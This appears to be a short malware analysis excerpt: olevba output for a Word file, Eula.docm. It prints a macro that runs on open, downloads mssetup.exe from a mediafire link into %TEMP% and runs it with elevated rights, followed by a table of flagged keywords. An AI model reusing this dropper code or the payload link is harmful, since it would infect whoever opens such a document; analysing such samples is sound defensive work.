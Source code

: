 let's export it for analysis

```
Flags        Filename
-----------  -----------------------------------------------------------------
OpX:MASI---- Eula.docm
===============================================================================
FILE: Eula.docm
Type: OpenXML
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: word/vbaProject.bin - OLE stream: u'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word/vbaProject.bin - OLE stream: u'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -

Sub AutoOpen()
    DownloadAndOpenFile
End Sub

Sub Document_Open()
    DownloadAndOpenFile
End Sub

Sub DownloadAndOpenFile()
    Dim url As String
    Dim destinationPath As String
    Dim shell As Object
    url = "https://download1076.mediafire.com/mjjs57bws5ngcVJRcUga28j9RuYxynGaiwQx3DQ0VgqblEMeVMkJeKDo7G77jmDb8YLLy_wlj8HLgv-1Nm-_dk3U4O7RSXM3DFqag4BwiI0COh6Usq5Xu8j9ImDYmDf6YnaEUPRfB5SwvO213LGTYKgRRMiZwyu2P1EA3kh6iRe4UdA/31a2ax8mintcrkp/mssetup.exe"
    destinationPath = Environ("TEMP") & "\mssetup.exe"

    ' Download the file
    With CreateObject("MSXML2.ServerXMLHTTP")
        .Open "GET", url, False
        .send
        If .Status = 200 Then
            With CreateObject("ADODB.Stream")
                .Open
                .Type = 1 ' Binary
                .SaveToFile destinationPath, 2 ' Overwrite
                .Close
            End With

            ' Open the downloaded file using Shell.Application
            Set shell = CreateObject("Shell.Application")
            shell.ShellExecute destinationPath, "", "", "runas", 1
        End If
    End With
End Sub


+------------+----------------------+-----------------------------------------+
| Type       | Keyword              | Description                             |
+------------+----------------------+-----------------------------------------+
| AutoExec   | AutoOpen             | Runs when the Word document is opened   |
| AutoExec   | Document_Open        | Runs when the Word or Publisher         |
|            |                      | document is opened                      |
| Suspicious | Open                 | May open a file                         |
| Suspicious | shell                | May run an executable file or a system  |
```